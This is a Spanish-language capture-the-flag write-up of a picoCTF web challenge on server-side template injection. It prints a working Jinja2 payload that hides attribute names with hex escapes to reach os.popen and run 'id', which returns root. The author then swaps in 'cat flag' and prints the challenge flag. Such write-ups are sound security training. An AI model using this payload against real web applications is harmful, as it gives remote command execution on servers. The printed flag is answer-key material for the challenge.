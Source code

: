 
## Descripción

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:62972/)!

## Solución

Ingresamos al sitio web.
Vemos un recuadro en donde ingresamos texto y al dar click en el botón ok solamente se crea una etiqueta con lo que ingresamos en el recuadro.
De acuerdo al nombre del reto y a la pista: Server Side Template Injection, investigo al respecto.
Pruebo ingresando la siguiente plantilla:
```
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}`
```

Obtengo lo siguiente: 
`uid=0(root) gid=0(root) groups=0(root)`

Modifico la plantilla cambiando `id` por cat flag, vuelvo a enviar y obtengo la bandera. `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_9451989d}`

## Notas adicionales

- Una inyección de plantilla del lado del servidor es una vulnerabilidad que ocurre cuando un servidor procesa la entrada del usuario como una plantilla.
- Las plantillas se pueden usar cuando solo es necesario cambiar detalles menores de una página según las circunstancias.


## Referencias

https://onsecurity-io.translate.goog/article/server-side-template-injection-with-jinja2/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc
